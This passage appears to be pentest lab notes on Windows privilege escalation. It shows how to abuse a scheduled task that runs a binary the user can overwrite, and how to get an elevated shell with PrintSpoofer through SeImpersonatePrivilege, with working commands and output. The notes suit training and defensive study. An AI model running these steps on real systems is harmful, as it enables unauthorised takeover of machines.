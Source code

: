 ```shell
PS C:\Users\steve> schtasks /query /fo LIST /v

Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
```

Interestingly, the task was created by _daveadmin_ and the specified action is to execute **BackendCacheCleanup.exe** in the **Pictures** home directory of _steve_. In addition, the times from _Last Run Time_ and _Next Run Time_ indicate that the task is executed every minute. The task runs as user _daveadmin_. Since the executable file **BackendCacheCleanup.exe** is located in a subdirectory of the home directory of _steve_, we should have extensive permissions on it. Let's check our permissions on this file with **icacls**.

```shell
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)
```

We have permission so we can place a malicious binary file

#### Kernel Exploits
**Potatoes**: https://jlajara.gitlab.io/Potatoes_Windows_Privesc

Privileges that may lead to privilege escalation are _SeBackupPrivilege_, _SeAssignPrimaryToken_, _SeLoadDriver_, and _SeDebug_. We will be abusing SeImpersonatePrivilege.

```
C:\Users\dave> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

PS C:\Users\dave> .\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
```